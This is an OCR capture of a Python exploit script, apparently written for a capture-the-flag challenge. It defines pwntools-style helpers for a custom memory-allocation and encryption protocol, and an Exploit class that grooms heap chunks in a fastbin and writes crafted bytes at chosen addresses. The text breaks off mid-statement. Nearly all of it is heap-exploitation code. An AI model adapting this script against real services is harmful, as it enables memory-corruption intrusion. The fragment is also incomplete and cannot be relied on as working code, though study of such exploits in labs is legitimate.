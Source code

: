 ```py
def send_long(r, i):
    r.send(int.to_bytes(i, 8, "little"))

def send_1_RAM_malloc(r, size, should_use_crypto):
    send_int(r, 1)
    send_int(r, size | (should_use_crypto<<16))
    RAM_malloc_res = int.from_bytes(r.recv(4), "little")
    log.info(f"RAM_malloc_res = {hex(RAM_malloc_res)}")
    if RAM_malloc_res == 0:
        RAM_id = int.from_bytes(r.recv(4), "little")
        log.info(f"RAM_id = {hex(RAM_id)}")

def send_3_RAM_decrypt(r, ram_id):
    send_int(r, 3)
    send_int(r, ram_id)
    RAM_decrypt_res = int.from_bytes(r.recv(4), "little")
    log.info(f"RAM_decrypt_res = {hex(RAM_decrypt_res)}")
    if RAM_decrypt_res == 0:
        RAM_content_size = int.from_bytes(r.recv(2), "little")
        log.info(f"RAM_content_size = {hex(RAM_content_size)}")
        RAM_content = r.recv(RAM_content_size)
        log.info(f"RAM_content = {RAM_content}")
        return RAM_content

def send_4_RAM_encrypt(r, ram_id, size, content):
    assert size == len(content)
    send_int(r, 4)
    send_long(r, (ram_id) | (size<<32))
    r.send(content)
    RAM_encrypt_res = int.from_bytes(r.recv(4), "little")
    log.info(f"RAM_encrypt_res = {hex(RAM_encrypt_res)}")

def send_5_RAM_free_all(r):
    send_int(r, 5)
    RAM_free_all_res = int.from_bytes(r.recv(4), "little")
    log.info(f"RAM_free_all_res = {hex(RAM_free_all_res)}")

def send_7_RAM_unfragment(r):
    send_int(r, 7)
    RAM_unfragment_res = int.from_bytes(r.recv(4), "little")
    log.info(f"RAM_unfragment_res = {hex(RAM_unfragment_res)}")

class Exploit():
    CURRENT_RAM_ID = 0

    def __init__(self):
        self.heap = 0
    
    def exploit(self):
        if self.test_cores(16) == True:
            log.critical("FOUND SIZE!!!!!!!!!!!!")

    def test_cores(self, nb):
        log.info("Create a chunk in 0x30 fastbin")
        c1 = conn()
        r  = conn()

        ram_id = point_at(r, 0x10410, 0x40)
        send_4_RAM_encrypt(
            r, 
            ram_id, 
            0x40, 
            b"\x00"*8 + 
```